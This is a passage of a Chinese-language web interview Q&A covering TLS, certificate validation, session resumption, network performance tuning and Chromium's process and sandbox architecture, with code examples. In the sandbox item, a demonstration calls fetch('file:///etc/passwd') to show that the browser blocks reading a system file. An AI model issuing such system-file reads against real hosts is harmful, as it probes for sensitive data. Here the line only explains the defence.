- 两者互斥：有 Content-Length 就不能用 chunked；HTTP/2 中 chunked 被废弃，分帧由二进制帧层完成。
- 前端可感知的体现：fetch 的 `res.body` 是 ReadableStream，chunked 响应可以逐块读取实现流式渲染。

```javascript
// Node 服务端：不设置 Content-Length 并持续 write，Node 自动使用 chunked
const http = require('http');
http.createServer((req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/plain' });
  let i = 0;
  const timer = setInterval(() => {
    res.write(`chunk ${i}\n`); // 每次写入就是一个 chunk
    if (++i >= 5) { clearInterval(timer); res.end(); }
  }, 200);
}).listen(3000);

// 报文形态：每块前是十六进制长度，0 块结束
// 8\r\nchunk 0\n\r\n 8\r\nchunk 1\n\r\n ... 0\r\n\r\n

// 前端逐块消费流式响应
fetch('http://localhost:3000').then(async (res) => {
  const reader = res.body.getReader();
  const decoder = new TextDecoder();
  while (true) {
    const { done, value } = await reader.read();
    if (done) break;
    console.log(decoder.decode(value)); // 每收到一个 chunk 立即处理
  }
});
```

## 十三、HTTPS 深入

### WEB-068：对称加密和非对称加密在 TLS 中各承担什么角色？
**答**：
- 非对称加密（RSA/ECDHE）只用于两个目的：验证证书身份、在握手阶段协商出会话密钥；它慢但解决了"密钥怎么安全地发给对方"。
- 对称加密（AES-GCM/ChaCha20）加密真正的应用数据，快几个数量级，TLS 记录层全部用它。
- 现代握手用 ECDHE 做密钥交换：双方交换椭圆曲线公钥，各自计算出相同的共享密钥，私钥永不传输，且每次会话换新密钥对实现前向保密。
- 面试一句话：非对称解决"信任与交换"，对称解决"性能与批量加密"。

```javascript
// 用 WebCrypto 复现 TLS 的分工：ECDHE 协商 + AES-GCM 加密
(async () => {
  // 模拟客户端与服务端各生成一对 ECDH 密钥
  const client = await crypto.subtle.generateKey(
    { name: 'ECDH', namedCurve: 'P-256' }, true, ['deriveKey']);
  const server = await crypto.subtle.generateKey(
    { name: 'ECDH', namedCurve: 'P-256' }, true, ['deriveKey']);

  // 双方用"对方公钥 + 自己私钥"推导出同一个会话密钥
  const clientKey = await crypto.subtle.deriveKey(
    { name: 'ECDH', public: server.publicKey }, client.privateKey,
    { name: 'AES-GCM', length: 256 }, false, ['encrypt', 'decrypt']);
  const serverKey = await crypto.subtle.deriveKey(
    { name: 'ECDH', public: client.publicKey }, server.privateKey,
    { name: 'AES-GCM', length: 256 }, false, ['encrypt', 'decrypt']);

  // 之后的通信全部使用对称加密
  const iv = crypto.getRandomValues(new Uint8Array(12));
  const ct = await crypto.subtle.encrypt(
    { name: 'AES-GCM', iv }, clientKey, new TextEncoder().encode('hello tls'));
  const pt = await crypto.subtle.decrypt(
    { name: 'AES-GCM', iv }, serverKey, ct);
  console.log(new TextDecoder().decode(pt)); // hello tls
})();
```

### WEB-069：浏览器如何验证一张服务端证书？证书链是怎么走通的？
**答**：
- 浏览器收到的是一条链：叶子证书（站点）→ 中间 CA → 根 CA；通常服务器只发叶子和中间证书，根证书预置在操作系统/浏览器的信任库里。
- 验证流程：用上级证书的公钥验证下级的签名逐级上溯到根；再检查域名匹配（SAN）、有效期、密钥用途、吊销状态（CRL/OCSP）。
- 常见线上故障：服务器漏配中间证书，桌面浏览器借 AIA 补链成功、移动端直接失败。
- 关键概念：信任锚是根 CA；只要根可信且链条上签名全部通过，证书即被信任。

```bash
# 查看服务器实际下发的完整证书链
openssl s_client -connect example.com:443 -showcerts </dev/null

# 验证链条：-untrusted 提供中间证书，-CAfile 提供根证书
openssl s_client -connect example.com:443 -showcerts </dev/null 2>/dev/null \
  | awk '/BEGIN CERT/,/END CERT/{print}' > chain.pem
openssl verify -CAfile /etc/ssl/cert.pem -untrusted chain.pem chain.pem
# 输出 chain.pem: OK 表示签名逐级验证通过

# 查看叶子证书的 SAN 域名与有效期
echo | openssl s_client -connect example.com:443 2>/dev/null \
  | openssl x509 -noout -text | grep -A1 'Subject Alternative Name'
```

### WEB-070：SNI 是什么？为什么会有 ESNI/ECH？
**答**：
- 同一台 IP 上部署多个 HTTPS 站点时，服务器需要在握手最早期知道客户端要访问哪个域名才能选对证书——这就是 SNI，在 ClientHello 中明文携带域名。
- 问题：SNI 是明文的，网络中间设备能看到你在访问哪个站点，等于泄露浏览目标。
- ESNI（后演进为 ECH Encrypted Client Hello）用站点 DNS 记录里发布的公钥把整个 ClientHello 加密，隐藏域名。
- 前端感知：ECH 依赖 DNS 的 HTTPS 记录与 DoH，配置于服务端与浏览器侧，应用代码无感。

```nginx
# 同一 IP 托管两个 HTTPS 站点，依赖 SNI 区分并选择证书
server {
    listen 443 ssl;
    server_name api.example.com;
    ssl_certificate     /etc/ssl/api.example.com.crt;
    ssl_certificate_key /etc/ssl/api.example.com.key;
}
server {
    listen 443 ssl;
    server_name www.example.com;
    ssl_certificate     /etc/ssl/www.example.com.crt;
    ssl_certificate_key /etc/ssl/www.example.com.key;
}
```

```bash
# 观察 SNI 的明文暴露与指定 SNI 的效果
# 不带 SNI，服务器只能返回默认站点证书
openssl s_client -connect 1.2.3.4:443 </dev/null | openssl x509 -noout -subject
# 显式携带 SNI，服务器返回对应域名的证书
openssl s_client -connect 1.2.3.4:443 -servername www.example.com </dev/null \
  | openssl x509 -noout -subject
```

### WEB-071：TLS 会话复用有哪几种方式？session id、session ticket、PSK 有何区别？
**答**：
- Session ID 复用：服务器把会话状态存在服务端并下发 ID，重连时客户端带上 ID，服务器查表恢复会话，只需 1-RTT（TLS1.3 中 0-RTT）。缺点是服务端有存储压力、不利于负载均衡。
- Session Ticket：服务器把加密后的会话状态发给客户端保存，重连时客户端原样带回，服务器解密恢复——无服务端存储，但要保证所有节点共享 ticket 加密密钥。
- PSK（TLS 1.3）：复用演化为预共享密钥，ClientHello 直接带 PSK 身份与 early data，实现 0-RTT。
- 工程要点：ticket 密钥要定期轮换；0-RTT 数据有重放风险（见 WEB-080）。

```nginx
# nginx 的会话复用配置
ssl_session_cache shared:TLS:10m;   # Session ID 模式：所有 worker 共享 10MB 会话表
ssl_session_timeout 1h;             # 会话可复用的时长
ssl_session_tickets on;             # 开启 Session Ticket 模式
ssl_session_ticket_key /etc/ssl/ticket.key;  # 多节点必须共享同一密钥文件，否则复用命中率骤降
# 命中复用时 curl 会打印 Reused, 抓包可见握手从 2-RTT 降到 1-RTT
```

```bash
# 验证会话复用：两次连接使用同一个 session 文件
curl -sv -o /dev/null --session-id-file /tmp/sess https://example.com 2>&1 | grep -i session
curl -sv -o /dev/null --session-id-file /tmp/sess https://example.com 2>&1 | grep -i reused
```

### WEB-072：TLS 1.2 与 TLS 1.3 的握手有什么本质区别？
**答**：
- RTT 差异：TLS 1.2 完整握手需要 2-RTT 才能发应用数据，TLS 1.3 把密钥交换与认证合并，1-RTT 完成，配合 PSK 可 0-RTT。
- TLS 1.3 只保留 AEAD 加密套件，砍掉 RSA 密钥交换、CBC 模式、RC4 等历史包袱，强制前向保密（密钥交换只用 ECDHE/PSK）。
- TLS 1.3 中服务器证书在 ServerHello 后立即加密下发，握手指纹更难被中间设备识别。
- 前端工程关注：1-RTT 意味着 HTTPS 建连成本接近纯 TCP，首屏字节更早到达。



```bash
# 分别用两个版本握手，对比往返信息
openssl s_client -connect example.com:443 -tls1_2 </dev/null 2>/dev/null | grep 'New,'
openssl s_client -connect example.com:443 -tls1_3 </dev/null 2>/dev/null | grep -E 'New,|Cipher is'
```

### WEB-073：OCSP 装订和证书透明度 CT 分别解决什么问题？
**答**：
- 证书吊销查询有两条路：CRL 是全量黑名单（大而慢）；OCSP 是实时单查，但浏览器直接查 CA 会泄露用户访问记录且增加握手延迟。
- OCSP 装订（Stapling）：由服务器定期去 CA 查询签名响应并缓存，TLS 握手时随证书一起"装订"下发，浏览器免查询、隐私不外泄。
- CT 证书透明度：所有 CA 签发的证书必须公开记录到 CT 日志，证书内嵌 SCT 签名时间戳；任何人可审计 CA 是否滥发证书，Chrome 要求公共证书有 SCT 才信任。
- 面试一句话：装订解决"吊销查询的隐私与延迟"，CT 解决"CA 乱发证书无法发现"。

```nginx
# nginx 开启 OCSP 装订
ssl_stapling on;
ssl_stapling_verify on;                 # 校验 OCSP 响应签名
ssl_trusted_certificate /etc/ssl/chain.pem;  # 用于验证装订响应的信任链
resolver 8.8.8.8 valid=300s;            # 装订查询需要 DNS 解析 OCSP 地址
# CT 无需服务端配置：CA 签发时已把 SCT 嵌入证书或 OCSP 响应
```

```bash
# 检查装订是否生效：看 OCSP response 字段是否非空
echo | openssl s_client -connect example.com:443 -status 2>/dev/null \
  | grep -A2 'OCSP response'

# 查看证书中的 CT 时间戳 SCT
echo | openssl s_client -connect example.com:443 2>/dev/null \
  | openssl x509 -noout -text | grep -A3 'CT Precertificate SCTs'
```

### WEB-074：本地开发如何用 HTTPS？自签证书为什么浏览器不信任？
**答**：
- 自签证书的"根"是开发者自己，不在操作系统/浏览器的信任库里，所以报 NET::ERR_CERT_AUTHORITY_INVALID——不是证书格式错了，而是信任锚缺失。
- 正确做法：mkcert 在本地生成一个本地 CA 并安装到系统/浏览器信任库，再由它给 localhost 签发证书，链路完整所以无警告。
- 手动 openssl 自签时必须带 SAN（`-addext "subjectAltName=DNS:localhost"`），Chrome 早已不接受只写 CN 的证书。
- 团队共享：把 mkcert 的 rootCA.pem 分发给同事安装，或用内网 CA。

```bash
# 方案一：mkcert 一条龙（推荐）
mkcert -install                                   # 生成本地 CA 并装入信任库
mkcert localhost 127.0.0.1 ::1 dev.local          # 签出证书与私钥
# 输出 localhost+2.pem 与 localhost+2-key.pem

# 方案二：纯 openssl 自签（需手动信任 root）
openssl req -x509 -newkey rsa:2048 -nodes -days 365 \
  -keyout dev.key -out dev.crt \
  -subj '/CN=dev.local' \
  -addext 'subjectAltName=DNS:dev.local,DNS:localhost,IP:127.0.0.1'
# 浏览器导入 dev.crt 到"受信任的根证书颁发机构"后才不报警

# nginx 挂上证书
# server { listen 443 ssl; ssl_certificate dev.crt; ssl_certificate_key dev.key; }
```

## 十四、网络性能与传输

### WEB-075：RTT 如何影响首屏时间？如何量化每一段的网络开销？
**答**：
- 首屏前的网络串行链：DNS（1 RTT 起）→ TCP 握手（1 RTT）→ TLS 握手（1.2 为 2 RTT、1.3 为 1 RTT）→ 发请求等首字节（1 RTT 起），每段都按 RTT 计价。
- 以 100ms RTT 估算：纯新建 HTTPS 连接约 4-5 个 RTT，即 400-500ms 只花在"开始传数据之前"；这就是 keep-alive、会话复用、HTTP/2/3 多路复用被反复强调的原因。
- 量化工具：`curl -w` 输出各阶段耗时，浏览器侧看 Resource Timing 的 domainLookup/connect/secureConnection/TTFB 区间。
- 前端优化对应动作：预解析 DNS、preconnect 预握手、CDN 把 RTT 变短。

```bash
# 用 curl -w 量化一次请求的每个阶段耗时
curl -o /dev/null -s -w '
DNS 解析      %{time_namelookup}s
TCP 建连      %{time_connect}s
TLS 完成      %{time_appconnect}s
首字节 TTFB   %{time_starttransfer}s
总耗时        %{time_total}s
' https://example.com/
# time_connect 减 time_namelookup 约等于 1 个 TCP RTT
# time_appconnect 减 time_connect 约等于 TLS 握手耗时的 RTT 数
```

```html
<!-- 前端侧提前吃掉这些 RTT：预解析与预握手 -->
<link rel="dns-prefetch" href="//api.example.com">
<link rel="preconnect" href="https://api.example.com" crossorigin>
```

### WEB-076：TCP 慢启动是什么？为什么它直接拖慢首屏？
**答**：
- 建连初期拥塞窗口 cwnd 很小（初始 10 个 MSS，约 14KB），每个 RTT 翻倍，直到丢包或达到阈值——前几个 RTT 能传的数据极少。
- 首屏关键资源（HTML + CSS + JS）普遍超过初始窗口，意味着要经历多个 RTT 才能传完，慢启动是首屏延迟的隐藏大头。
- 因此有"首屏关键资源总量控制在 14KB 内"的经验法则（对齐初始 cwnd），HTML 内联关键 CSS、压缩体积都是这个逻辑。
- HTTP/2 复用单连接反而放大慢启动影响：所有资源共享一条刚慢启动完的连接；HTTP/3 的连接迁移与更快恢复是应对方向。

```bash
# 演示慢启动的数学：初始 cwnd=10 MSS，每个 RTT 翻倍，估算传完 500KB 需要几个 RTT
awk 'BEGIN {
  mss = 1460; cwnd = 10; total = 0; rtt = 0;
  target = 500 * 1024;
  while (total < target) {
    rtt++;
    total += cwnd * mss;
    printf "RTT %d 本轮可发 %d KB 累计 %d KB\n", rtt, cwnd * mss / 1024, total / 1024;
    cwnd = cwnd * 2;  # 慢启动阶段指数增长
  }
  printf "传完 500KB 需要 %d 个 RTT\n", rtt;
}'

# Linux 可调初始拥塞窗口（一般不动，理解概念即可）
ip route change $(ip route | grep default) initcwnd 10
```

### WEB-077：BBR 拥塞控制与传统算法的核心差异是什么？
**答**：
- 传统 CUBIC/reno 是"丢包驱动"：把丢包当拥塞信号，塞满缓冲区才减速，在长肥管道上会故意填满交换机队列，产生 bufferbloat 高延迟。
- BBR 是"模型驱动"：主动估算瓶颈带宽 BtlBw 与最小往返时延 RTprop，把发送速率控制在"带宽跑满但队列不堆积"的工作点。
- 效果：弱网高丢包环境下 BBR 吞吐显著高于 CUBIC；对视频、大文件下载、QUIC 场景收益明显。
- 部署视角：BBR 是内核参数，CDN 与网关侧开启，前端只需理解它为什么让弱网用户更快。

```bash
# Linux 开启 BBR
sysctl net.ipv4.tcp_congestion_control        # 查看当前算法
echo 'net.core.default_qdisc=fq' >> /etc/sysctl.conf
echo 'net.ipv4.tcp_congestion_control=bbr' >> /etc/sysctl.conf
sysctl -p
sysctl net.ipv4.tcp_available_congestion_control  # 确认 bbr 生效
```

### WEB-078：什么是带宽时延积 BDP？如何指导内核网络参数调优？
**答**：
- BDP = 带宽 × RTT，表示"网络管道里同时能装多少数据"；TCP 吞吐要跑满带宽，收发缓冲区必须不小于 BDP。
- 典型误判：内网测试正常、跨国链路吞吐上不去——100Mbps 带宽 + 200ms RTT 的 BDP 约 2.5MB，默认 rmem 远不够。
- 调参对象是接收/发送缓冲区上限 rmem_max/wmem_max 与 tcp_rmem/tcp_wmem 三元组的最大值。
- BBR 官方建议额外开启 tcp_notsent_lowpath 之类细项可不管，先把缓冲区配够再谈其他。

```bash
# 计算 BDP：100Mbps 带宽、200ms RTT
awk 'BEGIN { printf "BDP = %.1f MB\n", 100 * 1000 * 1000 / 8 * 0.2 / 1024 / 1024 }'

# 按结果调大内核缓冲区上限
cat >> /etc/sysctl.conf << 'CONF'
net.core.rmem_max = 16777216
net.core.wmem_max = 16777216
net.ipv4.tcp_rmem = 4096 87380 16777216
net.ipv4.tcp_wmem = 4096 65536 16777216
CONF
sysctl -p
# 验证：ss -tin 观察实际连接的 cwnd 与缓冲区
ss -tin dst example.com
```

### WEB-079：中间盒和代理为什么会影响 HTTP/2 部署？
**答**：
- HTTP/2 明文升级（Upgrade: h2c）依赖中间设备放行该头，但大量企业防火墙、老代理会丢弃不认识的头或强行改写，导致明文 h2c 几乎不可用——现实中 HTTP/2 只在 TLS 上部署。
- 反向代理与 LB 若不支持 HTTP/2，会把它降级成 HTTP/1.1 转给上游，多路复用收益消失；nginx 需显式开启对上游的 h2。
- 另一个坑：HTTP/2 连接复用带来"连接合并"，同证书同源的不同域名可能共用连接，影响按域名分流的运维假设。
- QUIC 基于 UDP，部分网络会直接拦截 UDP 443，需要回退 HTTP/2 的降级策略。

```nginx
# nginx：边缘启用 h2，并显式与上游也用 HTTP/2 避免降级
server {
    listen 443 ssl;
    http2 on;
    location / {
        grpc_pass grpcs://backend;      # gRPC 强依赖 HTTP/2
        proxy_http_version 2;           # 到上游也走 h2，需要 upstream 支持
        proxy_set_header Connection ""; # 清空 Connection 头以支持多路复用
    }
}
```

### WEB-080：QUIC/HTTP3 的 0-RTT 为什么快？它引入了什么安全代价？
**答**：
- 0-RTT：复用此前会话的 PSK，客户端在第一个飞行包里就携带加密的应用数据（early data），省掉整个握手往返。
- 代价一：early data 用旧密钥加密，不具备前向保密；代价二：没有握手去重，同一份 early data 可被恶意重放多次（重放攻击）。
- 协议层约束：early data 必须是幂等的——GET 可以，POST 付款绝不允许放进 0-RTT；服务端要实现反重放（单次 ticket、时间窗、按 ticket 去重）。
- nginx 通过 `$ssl_early_data` 暴露 early data 状态，标准做法是在应用层拒绝携带非幂等语义的 early data。

```nginx
# nginx 配合 0-RTT：透传状态给上游，让应用决定是否处理 early data
server {
    listen 443 quic reuseport;
    ssl_early_data on;
    proxy_set_header Early-Data $ssl_early_data;  # 值为 1 表示该请求来自 0-RTT
}
```

```javascript
// 应用层反重放：上游收到 Early-Data: 1 时拒绝非幂等请求
const http = require('http');
http.createServer((req, res) => {
  if (req.headers['early-data'] === '1' && req.method !== 'GET' && req.method !== 'HEAD') {
    res.writeHead(425, { 'Retry-After': '1' }); // 425 Too Early 是为此设计的状态码
    return res.end('0-RTT 不允许携带非幂等请求');
  }
  res.writeHead(200); res.end('ok');
}).listen(3000);
```

### WEB-081：MTU 与分片的网络层常识有哪些？前端会遇到什么场景？
**答**：
- MTU 是链路层单帧上限（以太网 1500），IP 层超过就分片；TCP 用 MSS（MTU 减去 IP+TCP 头约 40 字节 = 1460）避免 IP 分片。
- 隧道场景（VPN、PPPoE 1492、云上 VXLAN）实际 MTU 更小，PMTUD 若被 ICMP 拦截会出现"小包通、大包卡"的经典故障。
- HTTPS 握手证书往往超过一个 MSS，MTU 不匹配时表现为"TCP 通了但 TLS 卡死"。
- QUIC 走 UDP，UDP 不像 TCP 有自动分段，QUIC 强制规定最小 1200 字节的初始包以规避分片问题。

```bash
# 探测路径实际 MTU：-M do 表示禁止分片，超限时直接报错
ping -M do -s 1472 example.com   # 1472 + 28 字节头 = 1500，若通则路径 MTU 为 1500
ping -M do -s 1452 example.com   # 逐步下调二分查找能通过的最大值

# 查看与设置网卡 MTU
ip link show eth0 | grep mtu
ip link set dev eth0 mtu 1420   # VPN 环境常见的调小操作

# 用 curl 复现大 MTU 卡死：-s 看是否停在握手阶段
curl -v --max-time 5 https://example.com
```

## 十五、浏览器架构与进程

### WEB-082：Chromium 的多进程模型由哪些进程组成？各自负责什么？
**答**：
- 浏览器主进程（Browser）：负责书签/地址栏 UI、网络请求的调度入口、磁盘存储、子进程管理，是唯一有完整系统权限的进程。
- 渲染进程（Renderer）：每个站点（隔离后）一个，跑 Blink 排版引擎与 V8，页面 JS 全部在这里执行。
- GPU 进程：统一负责所有进程的合成与光栅化指令，3D/2D 加速都在此收口。
- 网络服务进程（Network Service）：socket 池、DNS、HTTP 缓存、HSTS 都在这里；另有 Utility 进程承担音频、存储等杂项。
- 设计动机：隔离故障（一个标签崩溃不拖垮浏览器）与隔离权限（渲染进程无权碰网络与文件）。



### WEB-083：什么是站点隔离 Site Isolation？它防的是什么攻击？
**答**：
- 早期 Chrome 按标签页分配渲染进程，恶意页面里的跨站 iframe 与宿主同进程，能通过 Spectre 等侧信道偷读同进程内存。
- 站点隔离后，不同站点的文档（含跨站 iframe）强制运行在不同渲染进程，进程边界成为物理隔离，侧信道只能读到本进程数据。
- 触发条件：桌面 Chrome 默认对"会渲染跨站 iframe 的页面"启用；进程数随之膨胀，移动端曾因内存考虑降级。
- 前端关联：CORS/CORB 管数据可读性，Site Isolation 管内存可读性，两层防御互补。

```html
<!-- 跨站 iframe：站点隔离下运行在独立渲染进程 -->
<!-- 验证方式：打开 chrome://process-internals 可看到 frame 与 process 的对应关系 -->
<iframe src="https://third-party.example.com/ad"></iframe>
<script>
  // 即便同进程都做不到的事在隔离后更不可能：
  // 跨进程无法直接读取 iframe 内 DOM，跨源 DOM 访问再被同源策略拦一道
  try {
    console.log(frames[0].document.body.innerText);
  } catch (e) {
    console.log('跨源 iframe 的 DOM 不可访问', e.name); // SecurityError
  }
</script>
```

### WEB-084：渲染进程内部的主线程、合成线程、raster 线程各干什么？
**答**：
- 主线程：解析 HTML/CSS、样式计算、布局、记录绘制指令（Paint），跑 JS 与事件循环——一切卡顿源头都在这。
- 合成线程（Compositor）：接收主线程的分层绘制指令（cc 层树），负责滚动/transform 动画的推进与分块调度，不依赖主线程即可工作。
- raster 线程池：把合成线程分派的图块按 GPU 指令真正画成位图，再交给 GPU 进程合成上屏。
- 性能铁律：transform/opacity 动画只走合成器，长任务只阻塞主线程而滚动不卡；JS 频繁操作布局则三线程都要等它。



### WEB-085：浏览器的网络栈有哪些内部缓存？socket 复用怎么观察？
**答**：
- 自上而下：内存缓存（当前页面已用资源）→ 磁盘 HTTP 缓存（Cache-Control/ETag 管辖）→ DNS 缓存 → socket 池。
- socket 池按"host + 代理 + 隐私分区"分桶复用连接，HTTP/1.1 每桶并发有限，HTTP/2 一条连接多路复用。
- 观察手段：chrome://net-export 抓完整网络日志，chrome://net-internals/#sockets 看活连接与 socket 池。
- 代码侧用 Resource Timing 判断：domainLookup 与 connect 的起止时间相等，说明 DNS 与 TCP/TLS 都走了缓存复用。

```javascript
// 用 Resource Timing 判断连接是否被 socket 池复用
const entry = performance.getEntriesByType('resource')
  .find((e) => e.name.includes('api.example.com'));
if (entry) {
  const dnsReused = entry.domainLookupStart === entry.domainLookupEnd;   // true 走了 DNS 缓存
  const tcpReused = entry.connectStart === entry.connectEnd;              // true 复用已有 socket
  const tlsReused = entry.secureConnectionStart === 0;                    // 0 表示无独立 TLS 握手
  console.log({ dnsReused, tcpReused, tlsReused, ttfb: entry.responseStart - entry.requestStart });
}
// chrome://net-export 录制 + netlog-viewer 分析 socket 池全貌
```

### WEB-086：进程间通信 IPC 的成本在哪？前端能感知哪些优化手段？
**答**：
- 渲染进程与浏览器主进程、网络服务之间的每次通信都要序列化/反序列化（Chromium 用 Mojo），数据大、频率高时 CPU 与延迟成本显著。
- 页面层对应的同类问题：postMessage/Worker 通信走结构化克隆，大对象克隆就是"页面里的 IPC 成本"。
- 优化思路一：传不可变快照或增量而非全量；优化思路二：用 Transferable（ArrayBuffer）转移所有权实现零拷贝；优化思路三：高频流数据放 SharedArrayBuffer 共享内存。
- Service Worker 的每次 fetch 拦截、DevTools 协议通信本质都是 IPC 往返，过度拦截会放大延迟。

```javascript
// 结构化克隆的成本随对象大小线性增长
const big = { list: Array.from({ length: 1e6 }, (_, i) => i) };
console.time('clone-1M');
structuredClone(big);
console.timeEnd('clone-1M');

// 优化一：Transferable 转移所有权，零拷贝
const buf = new ArrayBuffer(16 * 1024 * 1024); // 16MB
console.time('transfer');
const w = new Worker(URL.createObjectURL(new Blob(['onmessage=()=>{}'])));
w.postMessage(buf, [buf]); // 不复制内存，buf 在本线程立刻不可用
console.timeEnd('transfer');

// 优化二：同源高频共享走 SharedArrayBuffer（需 COOP/COEP 头）
// Cross-Origin-Opener-Policy: same-origin
// Cross-Origin-Embedder-Policy: require-corp
// const sab = new SharedArrayBuffer(1024); w.postMessage(sab);
```

### WEB-087：渲染进程沙箱隔离了哪些操作？哪些请求要"委托"给浏览器进程？
**答**：
- 沙箱内（渲染进程）被禁止：直接读写文件系统、创建原始 socket、调用多数系统 API、访问其他进程内存、写注册表/敏感目录。
- 必须委托浏览器/网络服务进程完成：所有网络请求、文件下载与上传、弹窗与通知、剪贴板系统级操作、地理位置等设备能力。
- 沙箱配合站点隔离形成双层防线：即使渲染进程被 RCE 攻破，攻击者拿到的也是一个低权限、无数据的空壳进程。
- 面试可补充：GPU 进程、网络进程各自也有独立的权限降级，浏览器整体遵循最小权限原则。

```html
<!-- 沙箱感知实验：渲染进程内这些系统操作全部不可达 -->
<script>
  // 1. 文件系统：没有同步文件 API，异步读文件也要走用户选文件或 File System Access API
  try { fetch('file:///etc/passwd'); } catch (e) { console.log('file 协议被拦'); }

  // 2. 原始 socket：页面只有 fetch/WebSocket/WebRTC 等高层 API，全部经网络服务代理
  // 3. 系统命令：不存在任何 exec/system 能力
  console.log('window.require:', typeof window.require); // undefined

  // 4. 设备能力必须走权限 + 浏览器进程委托
  navigator.geolocation.getCurrentPosition(
    (pos) => console.log(pos),
    (err) => console.log('由浏览器进程代管并可能被拒绝', err.message)
  );
</script>
```

### WEB-088：渲染进程崩溃后浏览器如何恢复？前端能做什么配合？
**答**：
- 崩溃的是渲染进程，浏览器主进程存活：地址栏保留，页面显示"喔唷，崩溃啦"，点重载即用保留的会话历史新建渲染进程。
- 会话数据分两级：导航历史/滚动位置存于浏览器主进程的会话服务；sessionStorage 的数据在浏览器进程里保留，渲染崩溃后重载仍可读，但浏览器整体退出即清空。
- 前端配合：关键编辑态不要只存在内存——进 sessionStorage/IndexedDB，配合 beforeunload/pagehide 落盘，重载后恢复。
- 注意崩溃时 beforeunload 不会执行，所以高频增量保存比"退出前一次性保存"可靠。

```javascript
// 高频把关键状态写入 sessionStorage（存于浏览器进程，可扛渲染进程崩溃）
const editor = document.querySelector('#editor');
editor.addEventListener('input', () => {
  sessionStorage.setItem('draft', editor.value); // 输入即保存，不等退出
});

// 重载/恢复后还原
const draft = sessionStorage.getItem('draft');
if (draft) editor.value = draft;

// pagehide 在正常离开时兜底保存更重的数据
window.addEventListener('pagehide', () => {
  sessionStorage.setItem('draft', editor.value);
});
// 面试要点：crash 时 beforeunload 不会跑，靠的是输入过程中的增量写入
```

## 十六、渲染进阶

### WEB-089：如何完整量化关键渲染路径的各个阶段？
**答**：
- 链路：字节 → DOM/CSSOM → Style（样式计算）→ Layout（布局树）→ Paint（绘制指令）→ Composite（合成上屏）。
- 测量手段：Performance 面板逐帧看各阶段事件；代码侧 PerformanceNavigationTiming 给导航级节点，Paint Timing 给 FP/FCP，LCP 给最大内容元素时间。
- DOMContentLoaded 代表 DOM+deferred JS 就绪，load 代表全部子资源就绪，首屏体验看 FCP/LCP 而不是 load。
- 常见病灶：长任务阻塞主线程推迟 Style/Layout；强制同步布局（读写交错）造成 Layout 抖动。

```javascript
// 一次导航的关键节点全量收集
window.addEventListener('load', () => {
  const nav = performance.getEntriesByType('navigation')[0];
  console.table({
    'DNS':        [nav.domainLookupEnd - nav.domainLookupStart],
    'TCP':        [nav.connectEnd - nav.connectStart],
    'TLS':        [nav.secureConnectionStart ? nav.connectEnd - nav.secureConnectionStart : 0],
    '请求响应':    [nav.responseEnd - nav.requestStart],
    'DOM 解析':   [nav.domComplete - nav.responseEnd],
    'DOMContentLoaded': [nav.domContentLoadedEventEnd],
  });
});

// 首次绘制与首次内容绘制
new PerformanceObserver((list) => {
  for (const e of list.getEntries()) console.log(e.name, `${e.startTime.toFixed(0)}ms`);
}).observe({ type: 'paint', buffered: true });

// 强制同步布局的反面教材与正确写法
const boxes = document.querySelectorAll('.box');
